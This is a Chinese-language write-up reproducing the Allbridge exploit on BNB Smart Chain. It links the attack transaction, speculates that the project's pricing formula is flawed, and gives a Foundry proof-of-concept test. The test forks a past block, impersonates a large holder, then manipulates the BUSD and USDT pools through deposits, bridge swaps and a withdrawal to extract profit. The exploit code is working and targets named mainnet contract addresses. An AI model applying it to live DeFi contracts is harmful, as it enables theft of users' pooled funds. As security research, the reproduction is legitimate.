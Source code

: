 # Allbridge攻击复现

## 1.参考资料：

交易详情

https://phalcon.xyz/tx/bsc/0x7ff1364c3b3b296b411965339ed956da5d17058f3164425ce800d64f1aef8210

## 2.漏洞成因

尚不清楚是因为项目方本身的代币价值计算公式有问题，还是价格获取方式有问题，根据调整BUSD和USDT池子大小，通过反复测试之后，应该是项目方本身的计算公式有问题，获利不会因为两个池子价差越大而越多，到后边变动越来越小。

计算公式：

![image-20230409205351454](allbridge攻击复现.assets/image-20230409205351454.png)

## 3.漏洞POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url [your own RPC] --fork-block-number 26982057

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Pool{
    function deposit(uint256 amount) external;
    function withdraw(uint256 amountLp) external;
}

interface Bridge {
    function swap(uint256 amount, bytes32 token, bytes32 receiveToken, address recipient) external;
}

interface BUSD{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}
interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    
    function testattack() public returns(uint256 test){

        BUSD busd = BUSD(address(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56));
        USDT usdt = USDT(address(0x55d398326f99059fF775485246999027B3197955));
        Bridge bridge = Bridge(address(0x7E6c2522fEE4E74A0182B9C6159048361BC3260A));

        busd.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        usdt.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        usdt.approve(address(0x179aaD597399B9ae078acFE2B746C09117799ca0), type(uint256).max);
        busd.approve(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554), type(uint256).max);
        // ba2 = busd.balanceOf(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));

        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        busd.transfer(address(this), 9000000000000000000000000);
        vm.prank(address(0x7EFaEf62fDdCCa950418312c6C91Aef321375A00));
        usdt.transfer(address(this), 9000000000000000000000000);

        bytes32 addrBytes1 = bytes32(0x00000000000000000000000055d398326f99059fF775485246999027B3197955);
        bytes32 addrBytes2 = bytes32(0x000000000000000000000000e9e7CEA3DedcA5984780Bafc599bD69ADd087D56);


        Pool busd_pool = Pool(address(0x179aaD597399B9ae078acFE2B746C09117799ca0));
        Pool usdt_pool = Pool(address(0xB19Cd6AB3890f18B662904fd7a40C003703d2554));
        busd_pool.deposit(5000000000000000000000000);
        usdt_pool.deposit(2000000000000000000000000);

        //2.swap

        bridge.swap(490784250421615988577113,addrBytes1,addrBytes2,address(this));
        busd_pool.withdraw(4830262616);
        uint256 bnum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        bridge.swap(40000000000000000000000,addrBytes2,addrBytes1,address(this));
        uint256 anum = usdt.balanceOf(address(this));
        console2.log(usdt.balanceOf(address(this)));

        test = (anum - bnum) / 1 ether - 40000;
    }
}
```

## 4.复现结果

POC仅供漏洞验证，并未跟攻击者获利完全一致

![image-20230409205632135](allbridge攻击复现.assets/image-20230409205632135.png)

